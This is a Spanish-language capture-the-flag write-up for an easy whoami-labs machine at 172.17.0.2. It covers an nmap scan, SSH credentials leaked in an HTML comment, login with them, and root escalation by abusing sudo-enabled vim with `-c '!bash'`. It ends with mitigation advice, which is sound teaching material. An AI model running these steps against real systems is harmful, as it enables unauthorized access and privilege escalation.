










## Información General

| Campo           | Valor       |
| --------------- | ----------- |
| **Plataforma**  | whoami-labs |
| **Dificultad**  | Fácil       |
| **IP Objetivo** | 172.17.0.2  |
| **Autor**       | elc0ket     |

## Técnicas usadas

- Enumeración de servicios
- Fuzzing / análisis de código fuente web
- Credenciales hardcodeadas en comentarios HTML (Information Disclosure)
- Acceso inicial vía SSH con credenciales expuestas
- Escalada de privilegios vía `sudo` mal configurado (Vim - GTFOBins)

## Fase 1: Reconocimiento y Enumeración

### Escaneo de Puertos

```bash
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -sC -sV -oN ports 172.17.0.2
```

**Resultado relevante:**



```bash
nmap -p 22,80 -sC -sV -oN allports 172.17.0.2
```



Superficie de ataque mínima: solo SSH y un servidor web Apache. Con dos puertos, el análisis manual de la web es el siguiente paso obligatorio.
## Fase 2: Análisis de la Aplicación Web

Accedemos a `http://172.17.0.2/`:



Revisamos el código fuente de la página:



> [!warning] Hallazgo crítico En el código fuente de la página se encuentran credenciales en texto plano:
> 
> - **Usuario:** `writer`
> - **Contraseña:** `draft2025`

Un comentario HTML dejado "temporalmente" por un desarrollador filtra credenciales SSH válidas — el clásico error de dejar notas de debug/desarrollo en producción.
## Fase 3: Acceso Inicial

### Conexión SSH

```bash
ssh-keygen -f '/home/kali/.ssh/known_hosts' -R '172.17.0.2'
ssh writer@172.17.0.2
```



```
writer@docs-srv:~$ pwd
/home/writer
writer@docs-srv:~$ ls -la
```

```
writer@docs-srv:~$ cat user.txt 
```



## Fase 4: Enumeración de Privilegios

```
writer@docs-srv:~$ id
```



```
writer@docs-srv:~$ grep bash /etc/passwd
```



Se revisan los permisos `sudo` del usuario:

```
writer@docs-srv:~$ sudo -l
```



`writer` puede ejecutar `/usr/bin/vim` como root sin contraseña. Vim está catalogado en **GTFOBins** como binario explotable para escape a shell.

## Fase 5: Escalada de Privilegios

```bash
sudo -u root /usr/bin/vim -c '!bash'
```

```
root@docs-srv:/home/writer#
```

```
root@docs-srv:/home/writer# cd /root
root@docs-srv:~# ls
flag.txt
root@docs-srv:~# cat flag.txt 
CTF{Vim_Mode_Power_User}
root@docs-srv:~#
```



## Flags

```
user_flag: CTF{Documentation_Access_Level_1}
root_flag: CTF{Vim_Mode_Power_User}
```

## Resumen de Ataque

1. **Reconocimiento**: nmap revela solo dos puertos abiertos (SSH y HTTP), acotando la superficie de ataque a la aplicación web.
2. **Information Disclosure**: el código fuente de la web expone credenciales SSH válidas dejadas en un comentario HTML de "acceso temporal".
3. **Acceso inicial**: login SSH directo con las credenciales filtradas (`writer:draft2025`), obteniendo la flag de usuario.
4. **Enumeración de privilegios**: `sudo -l` muestra que `writer` puede ejecutar `vim` como root sin contraseña.
5. **Escalada de privilegios**: abuso de Vim (`-c '!bash'`) documentado en GTFOBins para obtener una shell root, cerrando la cadena con la flag final.

Cadena de explotación completa sin necesidad de exploits: dos errores de configuración humanos (credenciales en comentarios + sudoers permisivo) bastan para comprometer el sistema por completo.

## Medidas de Mitigación

- **Eliminar credenciales y notas de depuración del código fuente** antes de pasar a producción; usar revisión de código o linters que detecten patrones tipo `password`, `pass:`, `secret` en commits.
- **Rotar inmediatamente** cualquier credencial que haya quedado expuesta, aunque se considere "temporal".
- **Restringir sudoers al mínimo necesario**: evitar `NOPASSWD` en binarios con funcionalidad de escape a shell (`vim`, `less`, `find`, `awk`, etc.). Si se requiere editar archivos como root, usar `sudoedit` en lugar de dar acceso completo al binario.
- **Auditar periódicamente `/etc/sudoers`** y comparar contra la lista de binarios peligrosos de GTFOBins.
- **Principio de menor privilegio**: cuentas de servicio (`writer`) no deberían tener rutas de escalada a root salvo que sea estrictamente necesario para su función.